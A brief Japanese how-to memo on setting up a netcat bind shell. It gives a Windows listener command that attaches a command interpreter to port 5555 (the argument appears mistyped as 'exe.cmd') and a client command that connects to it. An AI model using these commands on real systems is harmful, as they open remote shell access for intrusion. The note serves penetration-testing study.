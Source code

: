 # ncを使ったバインドシェル他

## 
バインドシェルは攻撃側のportが空いてないと使えないことが難しいところ...

## Windows(バインド側)

```
> nc.exe -lvp 5555 -e exe.cmd
```

-l: 待ち受け
-v: vervose
-p: port

## クライアント側

```
$ nc xxx.xxx.xxx.xxx 5555
```

